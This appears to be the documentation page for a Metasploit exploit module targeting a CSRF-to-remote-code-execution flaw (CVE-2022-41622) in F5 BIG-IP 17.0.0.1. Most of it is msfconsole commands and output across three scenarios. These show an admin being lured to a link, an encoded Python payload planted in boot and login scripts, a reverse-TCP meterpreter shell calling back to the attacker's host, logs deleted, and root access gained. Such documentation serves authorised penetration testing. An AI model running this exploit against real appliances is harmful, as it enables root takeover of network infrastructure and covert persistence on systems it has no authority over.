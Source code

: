 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

This is a CSRF vuln, so it requires a browser in addition to msf:

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622`
4. Do `set TARGET_HOST <target>` / `set LHOST <yourtest>`
5. Do: `run`
6. You should get a url such as: `http://10.0.0.179:8080/ddgjZO`
7. Open a browser and visit that URL
8. If you don't already have an HTTP Basic session, it'll ask for your credentials (the `admin` account from earlier works great)

## Options

### `TARGET_HOST` / `TARGET_URI` / `TARGET_SSL`

These are the target that the user will be redirected to

### `FILENAME`

If the `TARGET` is `2` (`Custom`), the file that will be overwritten with the payload

## Scenarios

### F5 Big-IP 17.0.0.1 - Target 0 (Restart)

Start the listener:

```
msf6 > use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET_HOST 10.0.0.162
TARGET_HOST => 10.0.0.162

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/LXsNzhG6zMdQ
[*] Server started.
```

Then, a legit user that has HTTP Basic authentication (or who can be tricked
into performing HTTP Basic authentication) needs to visit that URL. When any
user connects, they'll be redirected to the SOAP endpoint and you'll see:

```
msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/LXsNzhG6zMdQ
[*] Server started.

[... wait for a user to visit the URL ...]

[*] Redirecting the admin to overwrite /shared/f5_update_action; if successful, your session will come approximately 2 minutes after the target is rebooted
```

We have no way to tell whether this was successful; however, if we already have
access to the target (ie, if you're testing this), we can check if the file was
successfully planted:

```
[root@bigip:Active:Standalone] config # cat /shared/f5_update_action 
UpdateAction
https://localhost/success`echo exec\(__import__\(\'base64\'\).b64decode[...]
https://localhost/error
0
0
0
0
```

The code planted there will activate at reboot. So, ...wait till the target
reboots. Perhaps when they update! Again, if you have shell access, you can
check the log file when it boots:

```
[root@bigip:INOPERATIVE:] config # tail -f /var/log/f5_update_checker.out
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file found -- parsing
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file action: "UpdateAction"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file success URL: "https://localhost/success`echo exec\(__import__\(\'base64\'\).b64decode[...]
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file failure URL: "https://localhost/error"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnSuccess flag: "8"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnSuccess slot: "0"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnFailure flag: "0"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: EM callback file rebootOnFailure slot: "0"
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: Executing EM action: UpdateAction
[Mon Nov 14 15:26:02 2022] f5em_callback [INFO]: Sleeping for 2 minutes before first attempt.
[...wait 2 minutes...]
[Mon Nov 14 15:28:02 2022] f5em_callback [INFO]: Finished sleeping.
[Mon Nov 14 15:28:02 2022] f5em_callback [INFO]: Attempting to connect to EM server: "https://localhost/success`echo exec\(__import__\(\'base64\'\).b64decode[...]
```

And, on Metasploit:

```
[*] Redirecting the admin to overwrite /shared/f5_update_action; if successful, your session will come approximately 2 minutes after the target is rebooted
[...wait 2 minutes...]
[*] Sending stage (40164 bytes) to 10.0.0.162
[+] Deleted /var/log/f5_update_checker.out
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:51388) at 2022-11-14 15:28:04 -0800

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Target 1 (Login)

This works similarly.. use the module, set the `TARGET_HOST`, and set the
`TARGET` to `1`:

```
msf6 > use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET_HOST 10.0.0.162
TARGET_HOST => 10.0.0.162

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET 1
TARGET => 1

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/ePg5ECHuVD
[*] Server started.

[...wait for an authenticated user to click the link...]

[*] Redirecting the admin to overwrite /var/run/config/timeout.sh; if successful, your session will come the next time a user logs in interactively
```

Once again, if you already have access, you can verify it worked:

```
[root@bigip:Active:Standalone] config # cat /etc/profile.d/timeout.sh 
echo exec\(__import__\(\'base64\'\).b64decode[...]
```

Then, when a user logs in (ie, `ssh root@<target>` or on the console), you get
a session:

```
[*] Redirecting the admin to overwrite /var/run/config/timeout.sh; if successful, your session will come the next time a user logs in interactively

[...wait for a user to log in..]

[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/run/config/timeout.sh
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:43902) at 2022-11-14 15:32:26 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Target 2 (Custom)

Once again, set up the server:

```
msf6 > use exploit/linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET_HOST 10.0.0.162
TARGET_HOST => 10.0.0.162

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set TARGET 2
TARGET => 2

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > set FILENAME /tmp/testmsfmodule
FILENAME => /tmp/testmsfmodule

msf6 exploit(linux/http/f5_icontrol_soap_csrf_rce_cve_2022_41622) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[+] Starting HTTP server; an administrator with an active HTTP Basic session will need to load the URL below
[*] Using URL: http://10.0.0.179:8080/PLvOVjkiVvXX
[*] Server started.

[...wait for an admin to visit that link...]

[*] Redirecting the admin to overwrite /tmp/testmsfmodule with the payload
```

You can verify the file exists:

```
# cat /tmp/testmsfmodule 
echo exec\(__import__\(\'base64\'\).b64decode[...]
```

Note that while this is written by root, you're in a pretty strict SELinux
context so most obvious attacks (like writing to /etc/profile.d, /root/.ssh,
etc., won't work).
